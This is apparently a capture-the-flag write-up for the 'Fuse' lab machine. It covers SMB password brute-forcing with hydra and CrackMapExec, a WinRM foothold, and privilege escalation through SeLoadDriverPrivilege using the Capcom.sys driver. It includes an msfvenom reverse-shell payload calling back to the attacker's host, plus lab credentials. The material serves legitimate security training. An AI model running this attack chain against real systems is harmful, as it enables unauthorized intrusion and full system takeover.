# Fuse

## scanning

```bash
furious 10.10.10.193
nmap -sC -sV -p135,139,389,88,464,636,445,593,80,53,3269,3268,5985,9389,49694,49666,49675,49676,49667,49680,49700 -n -Pn 10.10.10.193 -oN targeted
```



we edit /etc/resolv.conf adding ``nameserver 10.10.10.193``

## 80

we enter into http://fuse.fabricorp.local like is said in nmap enumeration










## Brute Force

Users to use (save in users.txt)

* pmerton
* tlavel
* sthompson
* bhult
* administrator

### cewl

```bash
cewl --with-numbers http://fuse.fabricorp.local/papercut/logs/html/index.htm -d 10 | tee password.txt
```

### Hydra

```bash
hydra -L users.txt -P password.txt -t 64 10.10.10.193 smb -V
```




or you can use CrackMapExec

### Crack Map Exec

```bash
cme smb 10.10.10.193 -u users.txt -p password.txt
```




users:

```text
user: bhult   password: Fabricorp01
user: tlavel   password: Fabricorp01
```

## smbpasswd

we use it because its said it must be changed in next logon

```bash
smbpasswd -r 10.10.10.193 -U tlavel
rpcclient 10.10.10.193 -U tlavel
```



password: $fab@s3Rv1ce$1

enum users in a file named like domusers and clean it with

```bash
cat domusers | grep -oP '\[.*?\]'| grep -v 0x| tr -d "[]"| tee domusers.txt
```



hydra again

```bash
hydra -L domusers.txt -p '$fab@s3Rv1ce$1' -t 13 10.10.10.193 smb -V
```



### Evil win rm

```bash
evil-winrm -i 10.10.10.193 -u 'svc-print' -p '$fab@s3Rv1ce$1'
```

```bat
type C:\Users\svc-print\Desktop\user.txt
```

## Privilege Escalation

```bat
whoami /priv
```



we see that the flag **SeLoadDriverPrivilege** is enabled so we are gonna try **Capcom.sys  Driver Exploit** that we find in google searching how to exploit **SeLoadDriverPrivilege**

I found this reference https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/

I'm gonna use **tandasat repository** https://github.com/tandasat/ExploitCapcom and this proof of concept https://github.com/TarlogicSecurity/EoPLoadDriver/, I'll need to compile it using visual studio code.

### Exploit preparation

#### EoPLoadDriver

First I download the file https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp, open a project in visual studio as command application and named as EoPLoadDriver,



Copy the file we download and paste there, I commend ``include "stadfs.h"`` because always have problem compiling it. It works without it. Also set Release and x64.



Finally we build the solution and open the directory to find the executable, is in ``x64/release/EoPLoadDriver.exe``, send it into your linux machine.

#### Exploit Capcom

We clone the repository https://github.com/tandasat/ExploitCapcom and open the file ExploitCapcom.sln with visual studio



we set the same as the last project in release and x64, we are gonna edit the line were it is suppose to open another terminal instead of that we write ``C:\\ProgramData\\reverse.exe `` to make the exploit start a reverse shell to our machine. And find the executable to send it into your linux machine.

#### Capcom.sys

we could find the driver here https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys, just download it.

```bash
wget https://github.com/FuzzySecurity/Capcom-Rootkit/raw/master/Driver/Capcom.sys
```

#### reverse.exe

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.141 LPORT=4444 -f exe -o reverse.exe
```

### Use the exploit

```bat
cd C:\ProgramData
upload Capcom.sys
upload EoPLoadDriver.exe
upload ExploitCapcom.exe
```



```bat
.\EoPLoadDriver.exe System\CurrentControlSet\dfserv C:\ProgramData\Capcom.sys
upload reverse.exe
.\ExploitCapcom.exe
```



```bat
type C:\Users\Administrator\Desktop\root.txt
```